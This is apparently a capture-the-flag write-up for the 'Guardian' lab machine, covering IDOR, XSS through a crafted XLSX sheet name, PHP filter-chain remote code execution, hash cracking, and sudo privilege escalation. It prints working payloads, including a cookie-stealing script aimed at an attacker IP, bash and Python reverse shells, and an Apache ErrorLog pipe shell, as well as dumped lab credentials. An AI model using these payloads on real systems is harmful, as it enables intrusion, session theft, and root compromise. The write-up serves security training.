Guardian

Guardian was a hard-difficulty Linux machine that began with an nmap scan revealing SSH on port 22 and HTTP on port 80. The main website exposed a student portal subdomain and a testimonials section listing three student email addresses. A publicly accessible PDF guide for the portal revealed a default password, which I used alongside one of the discovered student emails to authenticate to the portal.
Exploring the chat functionality revealed an IDOR vulnerability in the URL parameters, where chat threads were retrieved by user IDs passed directly in the request. By enumerating user IDs, I accessed a message thread between the admin and another user, recovering credentials for jamil.enockson. These credentials worked on a Gitea instance running on a separate subdomain, where I found the portal's source code including a composer.json file revealing a dependency on phpoffice/phpspreadsheet version 3.7.0.
Investigating where the library was used in the source revealed that uploaded .docx and .xlsx attachments were converted to HTML and rendered directly on the page. I identified a known XSS vulnerability affecting phpspreadsheet versions 3.0.0 through 3.8.0, where sheet names are not sanitized during HTML conversion. After failing to inject the payload via openpyxl due to character restrictions, I manually edited the workbook.xml inside the unzipped XLSX file, HTML entity encoding the necessary characters, and repackaged it. Uploading the malicious file as an assignment attachment triggered the XSS when a lecturer viewed the submission, returning their PHPSESSID cookie. Replacing my session cookie with it granted me access as sammy.treat, a lecturer.
As a lecturer, I discovered a notice creation form with a reference link field. Returning to the Gitea source code, I found an admin-only reports.php file that passed a report URL parameter directly into a PHP include statement, with only a path traversal check and a regex requiring the value to end with one of four specific filenames. I used a PHP filter chain to generate a webshell through a series of encoding transformations on an empty in-memory stream, which when processed by include() executed arbitrary code. By placing the command parameter before the report parameter in the URL, the chain URL still ended with the required filename pattern. I confirmed remote code execution as www-data by sending the payload as the reference link in a notice, triggering execution when the admin visited it.
From the www-data shell, I located the database configuration in the Gitea source and connected to the MySQL instance, extracting password hashes for users with login shells. The Gitea source also revealed that passwords were hashed as SHA256 with a shared salt in the format password:salt. I cracked the hashes with hashcat using mode 1410 and recovered credentials for jamil.enockson, which worked for SSH access.
For privilege escalation, sudo -l showed that Jamil could run a utilities.py script as Mark. The script imported several modules from a local utils directory, and the admin group, of which Jamil was a member, had write access to status.py. I replaced it with a Python reverse shell and triggered it via sudo, obtaining a shell as Mark.
Mark could run a custom safeapache2ctl binary as root. The binary accepted a config file, and while reading the Apache documentation I discovered that the ErrorLog directive supports piped commands via the pipe character. Adding a bash reverse shell as the ErrorLog value and running the binary as root via sudo returned a root shell.
User flag

initial nmap scan reveals just 2 open ports. SSH on 22, and HTTP on 80.
Investigating the website
The student portal button leads to a different subdomain. Aside from that, the testimonials button leads to an interesting part of the website.

The testimonials reveal 3 emails belonging to users. I will remember those, as they might come in handy sooner or later.
Bonnie Basden | GU0142023@guardian.htb
Jamesy Currin | GU6262023@guardian.htb
Stephenie Vernau | GU0702025@guardian.htb

The student portal itself requires credentials. There is a link to a PDF document, which is a guide for the portal. I'll read it right away.

The document mentions a default password of GU1234. Combining this with the information I already have, I will log in as one of the previous users with this default password. There is a chance that some of them set an identical password, or just did not change it.
GU0142023 | GU1234

These credentials worked and gave me access to the student portal.
IDOR in the messages functionality

Looking at the chat functionality, my user has 2 message threads active. Nothing interesting on them, though, aside from the URL itself.
http://portal.guardian.htb/student/chat.php?chat_users[0]=13&chat_users[1]=14
This looks like it might be vulnerable to IDOR(Indirect Object Reference), as it is retrieving users via these IDs from the URL. It might be possible to read messages of other users by looking through different IDs.
My user's ID is 13, mireielle.feek’s ID is 11. The select dropdown menu from the main chats screen tells us a bit more about the existing users.
# From website source (CTRL + U)
<SNIPPET>
<select id="new-chat-user" class="px-4 py-2 rounded-lg border border-gray-300 focus:ring-2 focus:ring-blue-500 focus:border-transparent">
<option value="">Select User</option>
<option value="1">admin</option>
<option value="2">jamil.enockson</option>
<option value="3">mark.pargetter</option>
<option value="4">valentijn.temby</option>
<option value="5">leyla.rippin</option>
<option value="6">perkin.fillon</option>
<option value="7">cyrus.booth</option>
<option value="8">sammy.treat</option>
<option value="9">crin.hambidge</option>
<option value="10">myra.galsworthy</option>
<option value="12">vivie.smallthwaite</option>
<option value="15">GU0702025</option>
<option value="16">GU0762023</option>
<SNIPPET>
There is a user named admin with the ID of 1. The users with whom my user has message threads open already are not present in the dropdown menu. Let's try to view the administrator's messages.
http://portal.guardian.htb/student/chat.php?chat_users[0]=2&chat_users[1]=1

jamil.enockson | DHsNnk3V503
Apparently, there is a Gitea instance running on the box. I'll check it out right away with these new credentials.
Checking out the Gitea subdomain

There is indeed a Gitea subdomain under gitea.guardian.htb. I will log in as Jamil, and I'll check out the repos.

2 repositories. I'll focus on portal.gouardian.htb, as it is mainly PHP.

Aside from a few interesting directories, there is a composer.json file. This JSON file is a list of all external PHP libraries and dependencies used in a project.
# Composer.json
{
"require": {
"phpoffice/phpspreadsheet": "3.7.0",
"phpoffice/phpword": "^1.3"
}
}
PhpOffice is included in this project. This is a PHP component used for working with spreadsheets and Word documents, as the name suggests. I'll check where it is used throughout the source code.

The component is used in the view-submission.php file. From this snippet, it looks like Word documents sent as attachments to a submission will be converted to HTML and displayed back onto the page directly.

The same is the case for spreadsheets. Any .docx and .xlsx files sent will undergo this process. This screams Cross-Site Scripting to me, so let's look online to see whether there are any known CVEs related to phpoffice before experimenting.
XSS via malicious XLSX file upload
https://github.com/PHPOffice/PhpSpreadsheet/security/advisories/GHSA-79xx-vf93-p7cx
I found a GitHub advisory describing an XSS vulnerability affecting phpspreadsheets versions 3.0.0 through 3.8.0. I can trigger the XSS flaw by creating an XLSX file with multiple sheets, due to the lack of sanitization of the sheet names.
I'll use the openpyxl library to generate an XLSX file.
# expdoc.py
from openpyxl import Workbook
wb = Workbook()
ws = wb.active
ws1 = wb.create_sheet("test")
ws1.title = "<script>eval(atob('PHNjcmlwdD5kb2N1bWVudC5sb2NhdGlvbj0naHR0cDovLzEwLjEwLjE2LjI6ODAwMC9YU1NTP2M9Jytkb2N1bWVudC5jb29raWU8L3NjcmlwdD4K'))"
wb.save("malicious.xlsx")
print(wb.sheetnames)
I wanted to use a b64 payload because openpyxl, just like LibreOffice, doesn't just allow certain characters (like '/', ':', and a few more) in the sheet name. However, this payload failed to bring results.
Instead, I decided to take apart the .xlsx file and add the payload manually. An XLSX file can be unzipped just like an archive.

# workbook.xml
<workbook xmlns="http://schemas.openxmlformats.org/spreadsheetml/2006/main"><workbookPr/><workbookProtection/><bookViews><workbookView visibility="visible" minimized="0" showHorizontalScroll="1" showVerticalScroll="1" showSheetTabs="1" tabRatio="600" firstSheet="0" activeTab="0" autoFilterDateGrouping="1"/></bookViews><sheets><sheet xmlns:r="http://schemas.openxmlformats.org/officeDocument/2006/relationships" name="Sheet" sheetId="1" state="visible" r:id="rId1"/><sheet xmlns:r="http://schemas.openxmlformats.org/officeDocument/2006/relationships" name="<script>document.location="http://10.10.16.2:8000/XSS?c="+document.cookie</script>" sheetId="2" state="visible" r:id="rId2"/></sheets><definedNames/><calcPr calcId="124519" fullCalcOnLoad="1"/></workbook>
In the name field of sheet2, I added the XSS payload wrapped in script tags. Certain characters (in this case, double-quotes'" = "', greater/less than signs ">< = > and <") had to be HTML entity encoded to not cause issues. The above workbook.xml showcases the result.
After adding the malicious XSS payload, everything can be zipped back up with zip -r ../exp.xlsx [Content_Types].xml .. Adding the Content Types.xml file into the command like this will allow file to recognize it as a proper sheet file.
As for where the file will be uploaded, it'll be an attachment to the only ongoing assignment in the assignments tab.

I sent the assignment after starting up my listener and waited for a hit.

A cookie came back! I'll see whose cookie this is by replacing mine with it (CTRL + SHIT +I -> Storage, then replace the PHPSESSID cookie value)

We've successfully gained a PHPSESSID cookie of sammy.treat, a lecturer.
Exploiting the reference notice creation form

As a lecturer, I can create notices for the notice board. I'll investigate this new endpoint.

This button led me to the create.php file, and the reference link's hint immediately rings a bell for possible XSS or some sort of code execution. The field requires a URL, though, which makes this a bit more complicated.
Checking the newly found files on Gitea
I returned to Gitea to look for an idea as to how I could exploit the reference link. I focused on the admin directory, thinking I could send the admin somewhere more favorable, where there was an opportunity to exploit something other than XSS.
# reports.php
<?php
require '../includes/auth.php';
require '../config/db.php';
if (!isAuthenticated() || $_SESSION['user_role'] !== 'admin') {
header('Location: /login.php');
exit();
}
$report = $_GET['report'] ?? 'reports/academic.php';
if (strpos($report, '..') !== false) {
die("<h2>Malicious request blocked 🚫 </h2>");
}
if (!preg_match('/^(.*(enrollment|academic|financial|system)\.php)$/', $report)) {
die("<h2>Access denied. Invalid file 🚫</h2>");
}
?>
<SNIP>
<?php include($report); ?>
<SNIP>
Aside from revealing where the database config is, this piece of code gives me a great idea for exploitation. The report parameter is taken directly from the URL parameter and later passed into an include statement. It must end with one of the words mentioned in the preg_match, though, otherwise it will be refused.
The include expression includes and evaluates the specified value, and if a specially-crafted payload is passed into it, it can be leveraged and used for code execution. A particular trick haunting both include and require statements exists, which I'll link below.
https://www.synacktiv.com/publications/php-filters-chain-what-is-it-and-how-to-use-it
https://github.com/synacktiv/php_filter_chain_generator
RCE via PHP filter chain trick
The key idea is that using the provided tool, I will create a PHP filter chain that generates a small webshell through a series of encoding transformations applied to an empty in-memory stream (php://temp). When include() processes the chain, it evaluates the resulting PHP code directly, giving me code execution through the $_GET[0] parameter."
python php_filter_chain_generator.py --chain '<?=$_GET[0]?>'
There is one more issue left, though, as the whole URL has to end with one of (enrollment|academic|financial|system)\.php. Order of parameters in the URL does not matter for PHP's $_GET, so I can just put the webshell payload at the beginning, so that the URL ends with the necessary .php file.
/admin/reports.php?0=curl+http://10.10.16.2:8000/$(whoami)&report=php://filter/<CHAIN>/resource=php://temp/academic.php
After standing up a Python server, I sent the large reference link with the notice and waited for a few seconds.

Success! The underlying user is www-data, which is not surprising. Now I'll replace the curl command with an actual RCE payload.
http://portal.guardian.htb/admin/reports.php?0=bash%20-c%20%27bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F10.10.16.2%2F9001%200%3E%261%27&report=php://filter/<FILTER_CHAIN>/resource=php://temp/academic.php

Shell as www-data
I know where the config.php and db.php files lie, thanks to my earlier recon in the Gitea instance.

There is a salt as well, which is important to remember. With database credentials, I will now explore the GuardianDB database.
mysql -h localhost -u root -pGu4rd14n_un1_1s_th3_b3st -D guardiandb -e "show tables;select * from users;"

There are a lot of users in this DB. I'll narrow this down to the most important targets, those who have a login shell.
cat /etc/passwd | grep "/bin/bash"

There are 4 users with proper login shells, not counting root. I'll grab certain fields from the DB, targeted towards these 4 users.
mysql -h localhost -u root -pGu4rd14n_un1_1s_th3_b3st -D guardiandb -e "SELECT username,password_hash,user_role FROM users WHERE username IN ('sammy.treat', 'mark.pargetter', 'jamil.enockson', 'gitea');"

These 3 users both have a shell on the box and are present in the database. I will grab these hashes, and I'll load them into John the Ripper, remembering that the passwords might be salted. For clarification, these look like SHA256 hashes.
Cracking the salted hashes
Actually, before trying to crack blindly, I will search the Gitea repo for the word "salt". It could show me how the salt is used, whether it is prepended to the password, or sitting at the end.

As I thought, these are SHA256 hashes, and the format is $password.$salt. I will return to my host, and I'll use hashcat to try to crack these hashes.
# hashes
c1d8dfaeee103d01a5aec443a98d31294f98c5b4f09a0f02ff4f9a43ee440250:8Sb)tM1vs1SS
8623e713bb98ba2d46f335d659958ee658eb6370bc4c9ee4ba1cc6f37f97a10e:8Sb)tM1vs1SS
c7ea20ae5d78ab74650c7fb7628c4b44b1e7226c31859d503b93379ba7a0d1c2:8Sb)tM1vs1SS
hashcat -m 1410 hashes rockyou.txt

jamil.enockson | copperhouse56
I'll try to SSH into the box as Jamil with these credentials.

Root flag

Jamil can run /opt/scripts/utilities/utilities.py as Mark. Let's take a look at that Python script.
Python import hijack by overwriting an imported script
# utilities.py
#!/usr/bin/env python3
import argparse
import getpass
import sys
from utils import db
from utils import attachments
from utils import logs
from utils import status
def main():
parser = argparse.ArgumentParser(description="University Server Utilities Toolkit")
parser.add_argument("action", choices=[
"backup-db",
"zip-attachments",
"collect-logs",
"system-status"
], help="Action to perform")
args = parser.parse_args()
user = getpass.getuser()
if args.action == "backup-db":
if user != "mark":
print("Access denied.")
sys.exit(1)
db.backup_database()
elif args.action == "zip-attachments":
if user != "mark":
print("Access denied.")
sys.exit(1)
attachments.zip_attachments()
elif args.action == "collect-logs":
if user != "mark":
print("Access denied.")
sys.exit(1)
logs.collect_logs()
elif args.action == "system-status":
status.system_status()
else:
print("Unknown action.")
if __name__ == "__main__":
main()
It imports a bunch of things from utils, looking into that directory reveals an interesting detail.

The admin group has read rights over the imported scripts, as well as write rights over the status.py script. Jamil is a member of that group, so let's replace it with a Python reverse shell.
import socket
import subprocess
import os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.10.16.2",9001))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
subprocess.call(["/bin/bash","-i"])
sudo -u mark /opt/scripts/utilities/utilities.py

Apache piped logs privilege escalation
Mark can run this safeapache2ctl binary as root. I couldn't find any information about this binary online, so I'll assume that it is a custom one. I'll try running it to see what it does.

It requires a config file, so I'll create a dummy one.

I'll need to include an MPM(Multi-Processing-Module) module. I will just create a simple, valid config for now.
ServerRoot /tmp
LoadModule mpm_prefork_module /usr/lib/apache2/modules/mod_mpm_prefork.so
Listen 8080
ServerName localhost
DocumentRoot /tmp

While reading the Apache docs, specifically the ErrorLog directive part, I found a very interesting piece of information.

I can spawn commands by using the pipe character, and I don't see any limitations mentioned. I will try adding a reverse shell command to the ErrorLog directive, as shown in the docs.
ErrorLog "|/bin/bash -c 'bash -i >& /dev/tcp/10.10.16.2/9001 0>&1"

Rooted!